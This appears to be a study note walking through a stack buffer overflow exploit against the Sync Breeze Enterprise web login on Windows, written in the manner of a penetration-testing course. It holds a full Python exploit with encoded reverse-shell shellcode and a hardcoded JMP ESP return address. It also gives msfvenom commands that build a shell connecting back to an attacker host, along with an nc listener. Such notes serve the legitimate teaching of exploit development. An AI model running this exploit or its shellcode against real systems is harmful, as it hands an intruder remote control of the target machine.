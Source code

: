 ```yaml
---
title: WBO-Windows Buffer Overflows
---
```


## Ultimate Goal

Getting a reverse shell (control over target machine's shell) without crashing the target application.

Target Application in this example, 'Sync Breeze Enterprise' service in windows.

1. Fuzzing the HTTP Protocol

   Test with different lengths of buffers to test if an application would fail (crash)

   e.g. Send 800 'A' as the username with http to the target. 

   Use Immunity Debugger to track the target application status (if it crashes)

   Observe that EIF register is occupied by some buffer.

2. Controlling EIF

   Determine which bytes occupies the EIF register.

   Use Metasploit to create some unique 4-byte strings

   `msf-pattern_create -l 800`: create 800 unique 4-byte strings

   When app crashes, see what value is in EIF, say '42306142'

   `msf-pattern_offset -l 800 -q 42306142` to find offset  of the 4 bytes that occupy EIF, say it's 780

   ```python
   #!/bin/python
   # ...
   filler = "A" * 780
   eip = "B" * 4
   buffer = "C" * 16
   inputBuffer = filler + eip + buffer
   # ...
   ```

   We get 42424242 in EIF, which is BBBB in ASCII . (42 in Hex is 66 in ASCII and represents 'B' in ASCII ) [Ascci Table](https://ascii.cl/)

   Now we have control over EIF (Address of next instruction to execute)

3. Locating Space for our shell code

   We can control EIF and don't know what address to use. We will do this later, we now focus on reverse shell code (what we will pass in buffer and use to run reverse shell).

   We found that ESP is filled with "CCCC...", which is our buffer.

   Reverse shell payload need approx. 350-400 bytes of space.

   Solution: increase buffer length

   ```python
   filler = "A" * 780
   eip = "B" * 4
   offset = "C" * 4
   buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))
   inputBuffer = filler + eip + offset + buffer
   ```

   Now we have more space for shell code.

4. Check for bad characters

   Depending on application, vulnerablilty type, protocol used, some chars cannot be used, such as string null terminator 0x00. Could cause `strcpy` command to stop early and truncate our buffer. Also for http protocol, should avoid return character 0x0D, stands for end of http field (username).

   Always check for bad characters, send all possible character from 0x00 - 0xFF.

   ```python
   #!/usr/bin/python 
   import socket 
    
   badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" ) 
    
   try:   
       print "\nSending evil buffer..."      
       filler = "A" * 780   
       eip = "B" * 4   
       offset = "C" * 4 
    
     	inputBuffer = filler + eip + offset + badchars      
       content = "username=" + inputBuffer + "&password=A" 
   # ...
   ```

   In Immunity Debugger, right click on ESP address "Follow in Dump" to view the content at that address when app crashes to see if the buffer at that location is expected. If 0x00 - 0xFF isn't complete and continuous in that location, the char that stops the continuity is a bad char, take note of it and remove it. Then keep testing until all bad chars are found.

   Bad Chars: 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D 

5. Redirecting The Execution Follow

   Replace the eip var in python code with ESP's value at the time of the crash.

   Value of ESP changes regularly. Hard coding wouldn't work.

6. Find a Return Address

   Solution for previous problem: `JMP ESP`

   Find a reliable **static** address that contains `JMP ESP` instruction, at the time of crash, point EIP to this location.

   This `JMP ESP` could be in another app, it just has to be static (the address of this location cannot contain any of the bad chars)

   Use Immunity Debugger `!mona modules` to check all ddl or modules loaded by target app to the memory space.

   From the flags in this output, we need to find some modules with SafeSEH319 (Structured Exception Handler Overwrite, an exploit-preventative memory protection technique), ASLR, and NXCompat (DEP protection) disabled. In other words, the executable has not been compiled with any memory protection schemes, and will always reliably load at the same address, making it ideal for our purposes. 

   Note: the address cannot contain bad chars as well.

   Need to find `JMP ESP` in target modules.

   Use msf to translate the hex-representation or opt code of `JMP ESP`

   ```bash
   msf-nasm_shell
   > jmp esp
   # get FFE4
   ```

   Search in Immunity Debugger, `!mona find -s "\xff\xe4" -m "module_name.dll"`

   The address of `JMP ESP` cannot contain bad chars.

   Use this address for EIP register, address is in reverse order since many systems use little endian byte order.

   Little Endian: low order byte number stored in memory at lowest address, high order at highest address, thus have to use reverse order.

7. Generating Shell code with metasploit

   LHOST: destination ip of shell

   LPORT: connect back port

   -f c: c formated shell code

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=433 -f c
   ```

   There could be bad char in generated shell code.

   Encode shell code to avoid bad chars.

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x 86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
   ```

8. Getting a shell

   Put the shell code in place of the buffer.

   Another problem: due to the encoding, the shell code is prepended by decoder. Some data like return address and offset are overwritten by the decoder. 

   Solution: create wide landing pad with `0x90`, no operation, do nothing, pass execution to the next instruction.

   Add 10 nops (`\x90`) before the shell code buffer

   ```python
   shellcode = ("\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"   "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"   "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59"   "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48"   "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f"   "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6"   "\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xa4"   "\x55\xa5\x87\x08\xa4\xb7\xc0\xaf\x57\xc2\x38\xcc\xea\xd5\xff"   "\xae\x30\x53\x1b\x08\xb2\xc3\xc7\xa8\x17\x95\x8c\xa7\xdc\xd1"   "\xca\xab\xe3\x36\x61\xd7\x68\xb9\xa5\x51\x2a\x9e\x61\x39\xe8"   "\xbf\x30\xe7\x5f\xbf\x22\x48\x3f\x65\x29\x65\x54\x14\x70\xe2"   "\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62"   "\x8e\xc9\xf4\xfc\x71\xf2\x04\xd5\xb5\xa6\x54\x4d\x1f\xc7\x3e"   "\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\xc7\xe0\xe2"   "\x5a\xe8\x2a\x8b\xf1\x13\xbd\xbe\x0e\x1b\x2f\xd7\x12\x1b\x4e"   "\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\x2c\x42\x73\x4d\x49"   "\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x70"   "\xb6\x30\x95\x1f\x46\x3e\x86\xb7\x11\x17\x78\xce\xf7\x85\x23"   "\x78\xe5\x57\xb5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3e\x9f"   "\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x44\x42\xbe\xe3\x3b\x0c\x56"   "\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc8"   "\x8c\x18\x7d\x36\x47\x99\x8d\x7d\xc5\x88\x05\xd8\x9c\x88\x4b"   "\xdb\x4b\xce\x75\x58\x79\xaf\x81\x40\x08\xaa\xce\xc6\xe1\xc6"   
   "\x5f\xa3\x05\x74\x5f\xe6") 
    
   filler = "A" * 780   
   eip = "\x83\x0c\x09\x10"   
   offset = "C" * 4   
   nops = "\x90" * 10 
    
   inputBuffer = filler + eip + offset + nops + shellcode      
   content = "username=" + inputBuffer + "&password=A" 
    
   buffer = "POST /login HTTP/1.1\r\n"   
   buffer += "Host: 10.11.0.22\r\n"  
   buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefo x/52.0\r\n" 
   ```

   run `sudo nc -lnvp 443` to listen on port 443 for the reverse shell to connect.

9. Improve The Exploit (Prevent App from crashing)

   App crashing could prevent testers from testing  after exiting.

   If the service is a threaded application, try avoid crash with ExitThread API instead of ExitProcess API.

   Service won't be bring down.

   `EXITFUNC= thread`

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC= thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d" 
   ```

   Replace the shell code with the output of this command.

   It will prevent the service from crashing.

   








